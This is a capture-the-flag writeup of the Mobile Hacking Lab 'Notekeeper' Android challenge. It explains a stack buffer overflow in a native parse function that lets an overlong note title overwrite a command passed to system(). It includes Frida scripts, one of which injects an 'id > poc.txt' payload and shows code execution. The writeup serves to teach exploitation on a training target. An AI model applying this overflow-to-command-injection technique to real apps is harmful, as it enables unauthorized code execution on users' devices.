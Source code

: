 ```yaml
---
title:  "Mobile Hacking Lab Notekeeper Writeup"
date:   2024-01-22T16:33:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for [Notekeeper](https://www.mobilehackinglab.com/course/lab-notekeeper) challenge from Mobile Hacking Lab. 

## Static Analysis
When we open the app in emulator, it opens a blank screen and with button and with this button we can create notes. When we examine the manifest file, we see that we have one activity(MainActivity). Let's start with it.

### MainActivity

At the beginning of this activity, we see this line:
```java
public final native String parse(String str);
```
It means that we have a native library and we will use `parse` function from this lib file. 

![](/assets/images_mhl_notekeeper/lib.png)

There is a one libnotekeeper.so file inside the apk. But this library file compiled only for arm64-v8a architecture. Because of that i can't run this app on genymotion vm (my pc don't have arm cpu). [Also arm translation tools not supports arm v8 arch.](https://support.genymotion.com/hc/en-us/articles/360010029677-How-to-run-applications-for-arm64-aarch64-armv8#:~:text=Genymotion%20Desktop,PC%20(Windows%2FLinux).) So, I have used corellium instance that provided by MobileHackingLab. 

![](/assets/images_mhl_notekeeper/parse.png)

When we adding a new note, title string passed to parse function from native lib. We can analyze native library file with ghidra decompiler.

![](/assets/images_mhl_notekeeper/ghidra.png)

Inside this function our title variable copied to another char array with for loop. But for loop count, our title's lenght is used and `local_2a4` array have 100 char size. What happens if we give a title longer than 100 characters? 

Also we can see that with memcpy function, `Log \"Note added at $(date)\` string copied to `acStack576` variable and later it will passed to the system function for executing code.👀

I wrote a small frida script for tracing the parameters of `system` and `parse` fucntions. I cant copy-paste from my pc to corellium instance and with this script i can change the argument of parse method with this script easily.

```js
Java.perform(function(){
    let MainActivity = Java.use("com.mobilehackinglab.notekeeper.MainActivity");
    const JavaString = Java.use('java.lang.String');

    MainActivity["parse"].implementation = function(str){
        const payload = JavaString.$new("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEF");
        console.log("parse func called with this arg ==> " + payload);
        const new_ret = this["parse"](payload);
        return new_ret;
    }
});

Interceptor.attach(Module.getExportByName('libc.so', 'system'), {
    onEnter(args) {
        var param1 = Memory.readUtf8String(args[0]);
        console.log("system function param1 ==> " + param1);
    },
    onLeave(retval) {
      
    }
});
```

This time i gave `100*"A" + "BCDEF"` to title. Lets see whats happened:

![](/assets/images_mhl_notekeeper/frida_test2.png)

We have succesfully overwite to `acStack576` variable and our input passed to system function. To understand better, we can use hexdump to follow memory state.

![](/assets/images_mhl_notekeeper/memory1.png)

As seen in screnshot, our title variable written before the text passed to stsyem function. If we can give input longer than 100 char, its overwritten.

![](/assets/images_mhl_notekeeper/memory2.png)

### Code Execution

If we can overwite `system` function argument, we can run command what we want. For testing, i run a http server and from phone, i will download it to app's local directory.

```js
Java.perform(function(){
    let MainActivity = Java.use("com.mobilehackinglab.notekeeper.MainActivity");
    const JavaString = Java.use('java.lang.String');
    MainActivity["parse"].implementation = function(str){
        const payload = JavaString.$new("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAid > /data/data/com.mobilehackinglab.notekeeper/poc.txt;#");
        console.log("parse func called with this arg ==> " + payload);
        const new_ret = this["parse"](payload);
        return new_ret;
    }
});

Interceptor.attach(Module.getExportByName('libc.so', 'system'), {
    onEnter(args) {
        var param1 = Memory.readUtf8String(args[0]);
        console.log("system function param1 ==> " + param1);
    },
    onLeave(retval) {
      
    }
});

```

![](/assets/images_mhl_notekeeper/poc1.png)

We can execute command🎉🎉🎉
Here is the poc video with another command:

[![](https://img.youtube.com/vi/8RmEMxs_Lpk/0.jpg)](https://youtu.be/8RmEMxs_Lpk)

Thanks for reading! See you in next writeups 👋🏻👋🏻
